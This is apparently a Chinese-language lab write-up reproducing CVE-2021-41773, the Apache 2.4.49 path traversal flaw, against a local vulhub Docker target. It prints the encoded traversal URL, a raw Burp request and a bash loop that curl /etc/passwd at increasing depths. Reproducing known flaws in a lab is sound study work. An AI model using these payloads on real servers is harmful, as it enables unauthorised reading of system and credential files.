







# 一、概述
`CVE-2021-41773`是Apache Http Server 路径穿越漏洞，所谓的路径穿越即为：攻击者可以访问出web目录以外的其他目录文件。但是需要注意的是，这个漏洞的造成很大一部分的原因是由于，服务提供者的错误配置造成的。`CVE-2021-41773`产生的前提是：
* Apacher Server 版本等于2.4.49
* 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。**（默认情况下是不允许的）**

# 二、影响版本
* Apache Server == 2.4.49

# 三、靶场复现
* 开始搭建靶场，这里我还是使用`vulhub`进行线下靶场的搭建
```linux
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# ls
1.png  2.png  docker-compose.yml  Dockerfile  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# pwd
/home/wq/vulhub-master/httpd/CVE-2021-41773
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# docker-compose up -d
Creating network "cve-2021-41773_default" with the default driver
Creating cve-2021-41773_apache_1 ... done
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-41773# docker ps
CONTAINER ID   IMAGE                   COMMAND              CREATED              STATUS          PORTS                                   NAMES
ac6fafd1c48a   cve-2021-41773_apache   "httpd-foreground"   About a minute ago   Up 59 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   cve-2021-41773_apache_1
```
* 靶场环境测试，开始访问：`http://192.168.10.134:8080/`发现可以正常访问，靶场搭建成功
  

# 四、开始漏洞复现
* 一般情况正常的GET请求是无法跨过Web目录访问系统目录的，即使在当前可能存在这个漏洞的情况下，也无法直接通过浏览器进行穿越目录进行访问。
* 首先我们先访问一个正常可以访问的目录
  
* 尝试在浏览器中使用`..`或者`%2e%2e`的方式进行尝试跨路径访问
  
  
* 后来打算使用python写request最后还是因为windows编码问题使用无法得到想要的请求，因为`%2e`,使用在发出请求是被编码为`.`
`http://192.168.30.14:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
* 最后还是使用linux的curl请求，完成验证，但是最终为了得到正确的路径还是需要写shell脚本进行请求，得到正确的路径
* 开始进行curl请求测试：，测试成功。
  
* 这是shell脚本测试
  
# 使用`BP`进行修改测试
```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: 192.168.10.134:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-HK
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
  

# 附录 SHell测试
``` linux
#! /bin/bash
ip=192.168.10.134
port=8080
for path in ".%2e" ".%2e/%2e%2e" ".%2e/%2e%2e/%2e%2e" ".%2e/%2e%2e/%2e%2e/%2e%2e" ".%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e"
do
  echo $path
  req="http://$ip:$port/icons/$path/etc/passwd"
  echo $req
  curl $req
  echo "~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
done
```
# 总结：
* `CVE-2021-41773` 主要存在与Apache Http Server 版本为2.4.49 ，需要注意的是不要在浏览器中直接进行跨路径访问，因为可能由于浏览器与系统的问题，进行错误的编码，建议使用linux或者BP软件进行修改后测试
* 需要注意的是，在Apache Http Server 版本为2.4.50中同样存在相同的漏洞，但是请求的编码是不同的
